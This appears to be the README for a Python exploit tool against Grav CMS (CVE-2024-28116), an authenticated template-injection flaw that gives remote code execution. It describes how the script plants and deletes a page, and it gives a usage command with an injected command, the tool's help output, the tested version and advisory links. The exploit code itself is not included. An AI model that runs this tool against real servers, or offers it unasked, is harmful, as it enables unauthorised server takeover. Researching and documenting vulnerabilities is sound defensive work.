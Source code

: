 # Grav CMS Remote Code Execution (Authenticated) - CVE-2024-28116

## Info

_This code is an adaptation from [`Grave` Github repository](https://github.com/akabe1/Graver) with some improvements based on [this video](https://ethicalhacking.uk/videos/CVE-2024-28116/)._

Exploit against `Grav CMS` based on SSTI + RCE vulnerabilities, labeled as `CVE-2024-28116`. This script basically creates pages with the vulnerabilities, executes then and, finally, deletes the page after the execution.

## Usage
```shell-session
python3 Grav_CMS_RCE.py -t http://10.10.10.10 -u 'admin' -p 'S3cureP4ssw0rd' -x 'ping -c 1 10.10.10.9'
```

Help message:

```
$ python3 Grav_CMS_RCE.py -h

usage: Grav_CMS_RCE.py [-h] -t TARGET [-P PORT] -u USERNAME -p PASSWORD -x COMMAND [--no-delete-file] [--panel-route PANEL_ROUTE] [--no-banner] [--show-warnings]

Grav CMS RCE (Authenticated).

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        URL where Graver CMS is running. Example: http://10.10.10.10
  -P PORT, --port PORT  Port running Graver CMS. Default: 80
  -u USERNAME, --username USERNAME
                        Username to authenticate in Grav CMS
  -p PASSWORD, --password PASSWORD
                        Password for the user in Grav CMS.
  -x COMMAND, --command COMMAND
                        Command to inject/run.
  --no-delete-file      Do NOT delete the generated files. Useful to check command execution output.
  --panel-route PANEL_ROUTE
                        Admin Panel route in Grav CMS. Default: /admin
  --no-banner           Do not print banner
  --show-warnings       Show warnings (if there are).
```

If for some reason we do not want to delete the generated files, we can use `--no-delete-file` flag, visit the page the script indicates and read the command output.

## More info
More CVE-2024-28116/about this exploit info:
- Tested on `Grav CMS v1.7.44 - Admin 1.10.44`.
- [https://github.com/akabe1/Graver](https://github.com/akabe1/Graver)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-28116](https://nvd.nist.gov/vuln/detail/CVE-2024-28116)
- [https://ethicalhacking.uk/videos/CVE-2024-28116/#gsc.tab=0](https://ethicalhacking.uk/videos/CVE-2024-28116/#gsc.tab=0)
- [https://github.com/getgrav/grav/security/advisories/GHSA-c9gp-64c4-2rrh](https://github.com/getgrav/grav/security/advisories/GHSA-c9gp-64c4-2rrh)

## Disclaimer
The owner of this repository is not responsible for the usage of this software. It was made for educational purposes only.

## Licence
- MIT

